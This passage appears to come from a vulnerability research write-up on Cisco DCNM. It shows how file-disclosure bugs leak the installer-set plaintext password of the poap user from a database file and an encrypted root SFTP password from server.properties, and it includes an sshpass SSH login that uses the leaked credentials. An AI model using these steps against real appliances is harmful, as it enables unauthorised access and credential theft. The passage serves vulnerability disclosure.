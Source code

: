 ```bash
[root@localhost ~]# hexdump -C /usr/local/cisco/dcm/db/data/base/16393/17925
00000000  00 00 00 00 a0 b7 cf 01  00 00 00 00 1c 00 68 1f  |..............h.|
00000010  00 20 04 20 00 00 00 00  68 9f 30 01 00 00 00 00  |. . ....h.0.....|
00000020  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
00001f60  00 00 00 00 00 00 00 00  53 0a 00 00 00 00 00 00  |........S.......|
00001f70  00 00 00 00 00 00 00 00  01 00 09 00 02 09 18 00  |................|
00001f80  01 00 00 00 00 00 00 00  2f 44 65 66 61 75 6c 74  |......../Default|
00001f90  5f 53 43 50 5f 52 65 70  6f 73 69 74 6f 72 79 47  |_SCP_RepositoryG|
00001fa0  73 63 70 3a 2f 2f 31 39  32 2e 31 36 38 2e 31 30  |scp://192.168.10|
00001fb0  30 2e 31 30 31 2f 76 61  72 2f 6c 69 62 2f 64 63  |0.101/var/lib/dc|
00001fc0  6e 6d 0b 70 6f 61 70 13  37 65 35 62 66 34 32 39  |nm.poap.7e5bf429|   <== user/password is on this line
00001fd0  21 31 39 32 2e 31 36 38  2e 31 30 30 2e 31 30 31  |!192.168.100.101|
00001fe0  09 73 63 70 1d 2f 76 61  72 2f 6c 69 62 2f 64 63  |.scp./var/lib/dc|
00001ff0  6e 6d 00 00 00 00 00 00  57 30 8f 8b 82 32 02 00  |nm......W0...2..|
00002000
```

Assuming that our file disclosure vulnerabilities can read binary files as root (hint: they can) then we can pull the plain-text system password out for the poap user.

You could just leak the `/etc/shadow` file and crack the root or poap user passwords. The root password is set by the administrator during installation so it maybe tricky/annoying to crack. However, **the poap users password is set by the installer and only 7 characters in length using the [a-z0-9] character set!**

```
saturn:~ mr_me$ sshpass -p '7e5bf429' ssh poap@192.168.100.123 'id;uname -a'
uid=1000(poap) gid=1000(poap) groups=1000(poap)
Linux localhost 3.10.0-957.10.1.el7.x86_64 #1 SMP Mon Mar 18 15:06:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

[ret2toc](#table-of-contents)

### Primitive 3 - Leaking server.properties

Vulnerable Targets:
- ISO Virtual Appliance for VMWare (dcnm-va.11.2.1.iso.zip)

If you prefer root access (like I do) then you can also leak the `server.properties` file. This is the same file that's displayed in the web interface for [ZDI-20-012](https://www.zerodayinitiative.com/advisories/ZDI-20-012/) in [RCE Chain 2](#rce-chain-2).

```bash
[root@localhost ~]# cat /usr/local/cisco/dcm/fm/conf/server.properties | grep sftp
server.sftp.rootdir=/
server.sftp.username=root
server.sftp.password=#59f44e08047be2d72f34371127b18a0b
server.sftp.enabled=true
```

We can proceed to decrypt the password just like we did in [ZDI-20-013](https://www.zerodayinitiative.com/advisories/ZDI-20-013/) and then login in via SSH.
[ret2toc](#table-of-contents)
